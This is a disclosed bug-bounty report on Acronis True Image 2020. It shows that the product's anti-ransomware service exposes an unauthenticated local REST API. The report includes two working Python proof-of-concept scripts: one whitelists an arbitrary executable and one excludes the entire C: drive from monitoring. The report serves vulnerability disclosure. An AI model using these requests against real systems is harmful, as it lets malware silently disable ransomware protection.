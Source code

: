 # anti_ransomware_service.exe REST API does not require authentication

## Report Details
- **Report ID**: 858608
- **URL**: https://hackerone.com/reports/858608
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-24T11:41:13.411Z
- **Disclosed**: 2021-06-24T08:20:51.161Z

## Reporter
- **Username**: mjoensen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
anti_ransomware_service.exe exposes a REST API that can be used by everyone, even unprivileged users. This API is used to communicate from the Acronis True Image 2020 GUI to the anti_ransomware_service.exe. This can be exploited to add an arbitary malicious executable to the whitelist or even exclude the entire drive from being monitored by anti_ransomware_service.exe.

Add executable to whitelist, steps to reproduce:
1. Run the python script "add_executable_to_whitelist.py". This could of course be written in a compiled language, such that the executable did not need an installed interpreter. Example code can be found below.
2. Verify in the Acronis True Image 2020 GUI that the executable "C:\ProgramData\ransomware_exe.exe" is whitelisted.

add_executable_to_whitelist.py:
"""
import requests
import json

put_headers = {'User-Agent': 'AcronisRestClient', "Accept": "application/json",
    "Content-Type":"application/json"}

data = {
   "additions" : [
      {
         "path" : "C:\\ProgramData\\ransomware_exe.exe"
      }
   ],
   "removals" : []
}
r1 = requests.put('http://localhost:6109/lists/processImages/white', headers=put_headers, data=json.dumps(data))
print(r1.content)
"""

Exclude drive from monitoring, steps to reproduce:
1. Run the python script "exclude_drive_from_anti_ransomware.py". This could of course be written in a compiled language, such that the executable did not need an installed interpreter. Example code can be found below.
2. Verify in the Acronis True Image 2020 GUI that the path "C:\*" is excluded.

exclude_drive_from_anti_ransomware.py:
"""
import requests
import json
import time

put_headers = {'User-Agent': 'AcronisRestClient', "Accept": "application/json",
    "Content-Type":"application/json"}

data = {
   "additions" : [
      {
         "path" : "C:\\*"
      }
   ],
   "removals" : []
}
r1 = requests.put('http://localhost:6109/lists/excludes', headers=put_headers, data=json.dumps(data))
print(r1.content)
"""

## Impact

This could silently disable the anti_ransomware_service.exe by whitelisting the specific ransomware executable or excluding the entire system drive from inspection.

## Attachments
No attachments
